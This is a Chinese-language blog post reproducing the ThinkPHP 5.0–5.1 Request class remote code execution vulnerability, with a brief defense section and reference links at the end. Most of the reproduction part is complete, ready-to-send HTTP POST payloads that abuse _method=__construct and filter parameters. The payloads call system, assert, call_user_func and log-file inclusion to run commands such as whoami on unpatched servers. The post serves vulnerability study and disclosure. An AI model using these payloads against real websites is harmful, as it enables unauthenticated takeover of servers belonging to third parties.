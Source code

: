 ```yaml
---
title: ThinkPHP5 核心类 Request 远程代码漏洞分析
categories:
  - 漏洞复现
tags:
  - 漏洞
  - RCE
  - 漏洞复现
  - ThinkPHP 5
  - ThinkPHP
author: Chace
date: 2020-07-11 18:47:35
---
```

# ThinkPHP5 核心类 Request 远程代码漏洞复现+Poc



# 漏洞介绍

2019年1月11日，ThinkPHP团队发布了一个[补丁更新](https://blog.thinkphp.cn/910675)，修复了一处由于不安全的动态函数调用导致的远程代码执行漏洞。

ThinkPHP官方发布新版本5.0.24，在1月14日和15日又接连发布两个更新，这三次更新都修复了一个安全问题，该问题可能导致远程代码执行 ，这是ThinkPHP近期的第二个高危漏洞，两个漏洞均是无需登录即可远程触发，危害极大。

之前写过一篇文章《[ThinkPHP-5-代码执行漏洞复现-POC](https://chaceshadow.github.io/2020/06/09/ThinkPHP-5-%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0-POC/#method%E4%BB%BB%E6%84%8F%E8%B0%83%E7%94%A8%E6%96%B9%E6%B3%95%E5%AF%BC%E8%87%B4rce)》里面有提过一次，这篇文章主要对其不同版本下进行详细的复现。

<!--more-->

# 影响版本

启明星辰ADLab安全研究员对ThinkPHP的多个版本进行源码分析和验证后，确认具体受影响的版本为ThinkPHP5.0-5.0.23完整版。



# 漏洞复现

本地环境采用ThinkPHP 5.0.10和5.0.22完整版+PHP7.0.9+Apache2.4.39进行复现。安装环境后执行POC即可执行系统命令

## 版本 5.0.0-5.0.12
> Payload：

```http
POST /public/index.php?s=index/index/index HTTP/1.1
Host: 192.168.1.236
Content-Length: 48
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

s=whoami&_method=__construct&filter[]=system
```

POC执行结果如下图：   
   ![](1.png)

   ![](2.png)



## 版本 5.0.12-5.0.23

在5.0.12之后的版本中，在`thinkphp/library/think/App.php的module`方法中增加了设置filter过滤属性的代码

   ![](3.png)

开启debug调试模式，打开配置文件`config.php`

   ![](4.png)

修改为

   ![](5.png)



  >Payload 1

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
  ```

POC执行结果如下图：   

   ![](6.png)
   ![](7.png)

  >Payload 2

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=think\__include_file&server[]=phpinfo&get[]=../runtime/log/202007/08.log&x=phpinfo();
  ```

POC执行结果如下图：   

   ![](8.png)
   ![](9.png)

  >Payload 3

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=assert&server[]=phpinfo&get[]=phpinfo()
  ```

POC执行结果如下图：   

   ![](10.png)


  >Payload 4

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=call_user_func&server[]=phpinfo&get[]=phpinfo
  ```

POC执行结果如下图：   

   ![](11.png)

## 版本 5.1.10（PHP7.3.4+Apache2.4.39）

5.1和5.2两个版本现在用的很少，并且针对于这两个版本有点鸡肋，需要index.php文件中跳过报错提示。 语句：error_reporting(0);

需设置 `error_reporting(0);`

>  Payload：

```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

c=system&f=whoami&_method=filter
```

一开始执行结果如下图：

![](12.png)

找到RuleGroup.php 新增一行代码error_reporting(0);跳过报错

![](13.png)

然后查看结果

![](14.png)

# 漏洞防御

1. 线上环境建议关闭debug模式

2. 升级到ThinkPHP 5.0.24

3. 手动增加过滤，在`thinkphp/library/think/Request.php`添加如下代码：

   ![](15.png)
   
   

# 参考链接

[ThinkPHP5 远程代码执行漏洞分析](https://seaii-blog.com/index.php/2019/01/14/88.html)

[ThinkPHP 5.0.0~5.0.23 RCE 漏洞分析](https://xz.aliyun.com/t/3845#toc-0)

[ThinkPHP5 核心类 Request 远程代码漏洞分析](https://paper.seebug.org/787/)

[ThinkPHP 5.0.x、5.1.x、5.2.x 全版本远程命令执行漏洞](https://blog.csdn.net/csacs/article/details/86668057)